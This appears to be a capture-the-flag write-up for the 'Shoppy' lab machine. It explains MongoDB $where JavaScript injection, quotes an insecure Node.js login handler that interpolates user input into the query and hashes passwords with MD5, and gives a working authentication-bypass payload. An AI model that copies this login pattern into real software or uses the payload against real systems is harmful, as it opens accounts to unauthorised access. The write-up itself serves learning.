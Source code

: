**Beyond Auth bypass**

Shoppy come with MEAN stack {Mongodb,Express,Angular,Nodejs}  
 
Endpoints   
/login

We identified Nosql injection vulnerability 
In username parameter of login form in shoppy.htb

**About Nosql injection in Nodejs**

One thing many users are surprised about, is that Mongo supports JavaScript evaluation when a JS expression is placed into a $where clause or passed into a mapReduce or group function. So anywhere unfiltered input is passed to one of these clauses, we may find JavaScript injection.

**JavaScript Injection Example**

The app has a JavaScript injection in the querystring of the user lookup page. The (vulnerable) lookup code looks like this:

```javascript
let username = req.query.username;
query = { $where: `this.username == '${username}'` }
User.find(query, function (err, users) {
	if (err) {
		// Handle errors
	} else {
		res.render('userlookup', { title: 'User Lookup', users: users });
	}
});
```
As you can see, the username search string is pulled directly from the request without any filtering. The query is a where clause which passes in the username string directly. So, if we put valid JavaScript into the querystring, and match quotes correctly, we can have Mongo execute our JavaScript!

In this case, our goal is to find all valid users, so we'd like to pass in something which will always evaluate to true. If we pass in a string like ' || 'a'=='a the query will become $where: `this.username == '' || 'a'=='a'` which of course always evaluates to true and thus returns all results. With JS injection, there are many other things we might be able to achieve, and boolean checks are just one


Reference no 1 [https://nullsweep.com/a-nosql-injection-primer-with-mongo/](https://nullsweep.com/a-nosql-injection-primer-with-mongo/)

Reference no 2 **Javascript Evaluation Query in mongodb**   

[https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/](https://www.mongodb.com/docs/manual/reference/operator/query-evaluation/)

**Debuging ShoppyApp**

Runing shoppyapp localy and config the mongodb 

Vulnerable Code
```javascript
app.post('/login', async (req, res) => {
    const username = req.body.username;
    const password = req.body.password;
    if (username === undefined || password === undefined) {
        res.status(400).send('Bad Request');
        return;
    }
    const passToTest = require('crypto').createHash('md5').update(password).digest('hex');
    const query = { $where: `this.username === '${username}' && this.password === '${passToTest}'` };
    const result = await User.find(query).maxTimeMS(350);
    if (result.length === 0) {
        res.redirect('/login?error=WrongCredentials');
    } else {
        req.session.username = req.body.username;
        req.session.save((error) => {
            if (error) {
                res.redirect('/login?error=WrongCredentials');
            } else {
                res.redirect('/admin');
            }
        });
    }
});
```
**Payload**   
{"username":"admin'||'1=1","password":""}

Set a breakpoint in line 86 and inject the payload the query will look like this
```javascript
$where: 'this.username === 'admin'||' 1=1' && this.password === 'd41d8cd98f00b204e9800998ecf8427e''
```
**Report**   
admin OR 1=1 AND passwod in this query "1=1" will evaluates to true and return 1. If we get 0 it will redirect to Wrongcreds if we get 1 it will redirect to /admin endpoint from that point we successfully bypass the auth 
